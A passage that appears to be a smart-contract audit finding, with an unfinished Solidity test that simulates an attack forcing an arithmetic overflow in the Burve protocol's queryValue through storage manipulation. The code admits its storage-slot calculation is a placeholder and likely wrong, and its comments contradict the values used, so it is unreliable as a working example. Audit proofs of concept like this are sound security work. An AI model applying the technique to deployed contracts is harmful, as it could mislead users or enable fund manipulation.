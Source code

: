 ```solidity
        console.log("BGT Value after huge add:", bgtValue);
        // --- End Attempt ---
```
Also add the following test at the end of the test file [Burve/test/facets/ValueFacet.t.sol
](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/test/facets/ValueFacet.t.sol#L439)
```solidity
    // --- Malicious Tests ---

    /// @notice Test simulating an attack where extreme rates cause mulX128 overflow in queryValue
    /// @dev This test uses vm.store to directly manipulate rates, simulating a state
    ///      that might be hard/impossible to reach via normal interactions but demonstrates the overflow.
    function testAttack_QueryValueOverflowMisinformation() public {
        // Define the storage slot for the closures mapping within the test.
        // Replace '2' with the actual slot number if different.
        uint256 STORE_CLOSURE_SLOT = 5;

        uint16 closureId = 0x9; // Closure with tokens 0 and 3
        address targetUser = alice;

        // 1. Give the target user a large value position
        // Use uint128 max / 2 for value, split between value and bgtValue
        uint128 largeValue = type(uint128).max / 2;
        uint128 largeBgtValue = largeValue / 2; // Example split

        // Cheat to give 'this' contract tokens needed for the large deposit
        // Estimate required amounts (might need adjustment) - assuming roughly 1:1 for simplicity
        deal(tokens[0], address(this), largeValue);
        deal(tokens[3], address(this), largeValue);

        // Add the large value for the target user
        valueFacet.addValue(targetUser, closureId, largeValue, largeBgtValue);

        // Verify the value was added (sanity check)
        (uint256 value, uint256 bgtValue, , ) = valueFacet.queryValue(targetUser, closureId);
        assertEq(value, largeValue, "Initial value check failed");
        assertEq(bgtValue, largeBgtValue, "Initial bgtValue check failed");
        uint256 nonValue = value - bgtValue;

        // 2. Attacker somehow manipulates the rate to an extreme value
        // We need rate * nonValue >= 2**384 to cause mulX128 overflow.
        // Let's target realEPVX128[0] for closure 0x9.
        // We need rate >= 2**384 / nonValue.
        // nonValue is approx 2**127 / 2 = 2**126.
        // So we need rate >= 2**(384 - 126) = 2**258.
        // Let's set the rate to 2**260 (which wraps in uint256) for demonstration.
        // WARNING: Finding the exact storage slot requires inspecting the contract storage layout.
        // This is a placeholder calculation and might need adjustment based on actual layout.
        // Assume Store.closure(cid) returns a pointer to the Closure struct in storage.
        // Assume realEPVX128 is the first member of the struct.
        // The slot would be keccak256(abi.encode(ClosureId.wrap(closureId), STORE_CLOSURE_SLOT)) + offset
        // Let's *assume* slot calculation results in `rateSlot` for realEPVX128[0].
        // This needs proper calculation for a real scenario. For this PoC, we'll use a placeholder.

        bytes32 closureStorageBaseSlot = keccak256(abi.encode(ClosureId.wrap(closureId), STORE_CLOSURE_SLOT));
        // Assuming realEPVX128 is the first mapping/array in the Closure struct (offset 0)
        // and we target index 0. This is highly likely incorrect for the real layout.
        bytes32 rateSlot = bytes32(uint256(closureStorageBaseSlot) + 0); // Placeholder offset

```